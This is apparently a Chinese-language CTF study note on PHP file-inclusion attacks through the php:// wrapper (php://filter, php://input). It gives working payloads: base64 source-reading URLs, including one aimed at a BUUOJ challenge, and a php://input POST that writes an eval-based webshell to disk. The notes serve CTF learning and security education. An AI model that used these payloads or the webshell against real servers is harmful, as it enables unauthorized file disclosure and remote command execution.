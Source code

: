 php:// 协议

可以获取指定文件的源码，但是当它与include函数结合时，php://filter就会被当做php文件执行。所以我们一般对其进行编码，让其不执行。从而导致任意文件读取。

条件
allow_url_fopen:off/on都可以

allow_url_include :仅php://input php://stdin php://memory php://temp 需要on

作用：
php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

说明：
php提供了一些杂项输入/输出 (IO)流，允许访问php输入输出流，错误描述符等

php://input 可以访问请求的原始数据的只读流，在post请求中访问post的data部分 ，
在enctype="multipart/form-data"(表单文件上传)的时候无效

php://output 只写的数据流，允许以print和echo 一样的方式写入到输出缓冲流

php://memory和php://temp:是类似文件包装器的数据流，允许读写临时数据，区别是：
php:memory:总是把数据存储在内存中
php://temp 会在内存量达到预定义的限制后存入临时文件中

php://filter 主要用于数据流打开时的筛选过滤应用，对于一体式（all-in one）文件函数非常有用，类似，readfile() 、file() 和file_get_contents() 在数据流内容读取之前没有机会应用其他过滤器

例子
1.php://filter/read=convert.base64-encode/resource=[文件名]读取文件源码（针对php文件需要base64编码）
2.php://input + [POST DATA]执行php代码

http://4d45bcb5-1f49-4c81-b3d6-e6bbc9a9b257.node5.buuoj.cn:81/secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php

如http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>

若有写入权限，还可以写入一句话木马

http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
 

POC:
php://filter/read=convert.base64-encode/resource=[文件名]读取文件源码（针对php文件需要base64编码）